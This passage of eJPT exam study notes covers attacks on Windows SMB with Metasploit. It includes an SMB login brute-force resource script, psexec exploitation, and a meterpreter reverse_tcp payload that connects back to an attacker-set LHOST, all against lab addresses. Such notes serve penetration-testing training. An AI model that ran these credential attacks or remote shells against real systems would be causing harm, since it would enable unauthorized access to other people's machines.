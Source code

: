 ### **💡 Efficiency Tips:**

#### **Workflow Optimization:**
```bash
# Use database for target management
db_nmap -p445 192.168.1.0/24
hosts
services

# Batch credential testing
set RHOSTS file:/tmp/targets.txt
set THREADS 10
set VERBOSE false

# Quick exploitation setup
set SMBUser Administrator
set SMBPass password123
set payload windows/meterpreter/reverse_tcp
set LHOST 192.168.1.10
```

#### **Time-Saving Techniques:**
```bash
# Resource scripts for repeated operations
echo "use auxiliary/scanner/smb/smb_login" > smb_attack.rc
echo "set RHOSTS 192.168.1.100" >> smb_attack.rc
echo "set USER_FILE /usr/share/wordlists/users.txt" >> smb_attack.rc
echo "exploit" >> smb_attack.rc
msfconsole -r smb_attack.rc

# Alias common commands
alias smb_scan='nmap -p445 --script smb-protocols'
alias msf_quiet='msfconsole -q'
```

---

## 🎓 Quick Reference and Study Notes

### **🧠 Memory Card for eJPT:**
```bash
# Essential commands to memorize
nmap -p445 --script smb-protocols target     # SMB discovery
use auxiliary/scanner/smb/smb_login           # Credential attack
use exploit/windows/smb/psexec               # System exploitation
set RHOSTS target                            # Set target
set SMBUser username                         # Set username
set SMBPass password                         # Set password
exploit                                      # Execute
shell                                        # System access
```

